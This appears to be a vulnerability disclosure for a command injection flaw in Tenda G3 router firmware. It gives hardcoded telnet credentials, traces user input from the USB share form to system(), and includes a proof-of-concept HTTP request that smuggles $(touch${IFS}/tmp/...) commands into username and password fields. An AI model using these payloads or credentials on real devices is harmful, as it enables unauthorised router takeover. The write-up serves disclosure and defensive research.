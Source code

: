 # Tenda G3 Command injection vulnerability

## Overview

- Manufacturer's website information：<https://www.tenda.com.cn/>
- Firmware download address ：<https://www.tenda.com.cn/product/download/G3.html>

## Vulnerability information

There is a command injection vulnerability in tenda G3 V15.11.0.20, which can execute arbitrary command in route system.

## Affected version

![](pic/1.png "")

Figure shows the latest firmware of V3：V15.11.0.20.

## Vulnerability details

open telnet  <http://192.168.0.1/goform/telnet>
telnet admin/password is root/ Fireitup

using ida to analysis httpd, in function formSetUSBShareInfo:

![](pic/code1.png "")

The program passes the contents obtained by the usbPrivilegedUserName parameter to usbServerPrivilegedUserName.
Then, usbServerPrivilegedUserName is called by setValueIfNotNull to stored the value in system.  

In binary netctrl, the stored value was passed to user by GetValue(), and finally the vaule is passed to cmd.
![](pic/code2.png "")

![](pic/code3.png "")
The cmd is called by system().  
There exists command injection vulnerability.

## Vulnerability exploitation condition

Need to get cookie after logging in to execute the attack.

The functional data packets are as follows, and we will use this to construct poc.  

```http
POST /goform/setUSB HTTP/1.1
Host: 192.168.0.252
Content-Length: 201
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.252
Referer: http://192.168.0.252/USB/usbFileShare.html?0.07972570565071435
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _:USERNAME:_=; G3v3_user=
Connection: close

usbPrivilegedUserName=admin$(touch${IFS}/tmp/test1)&usbPrivilegedUserPwd=admin$(touch${IFS}/tmp/test2)&usbOrdinaryUserName=guest$(touch${IFS}/tmp/test3)&usbOrdinaryUserPwd=guest$(touch${IFS}/tmp/test4)
```

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:

![](pic/effect.png "")

Figure shows POC attack effect, the file test1 is created.

## CVE-ID

unsigned
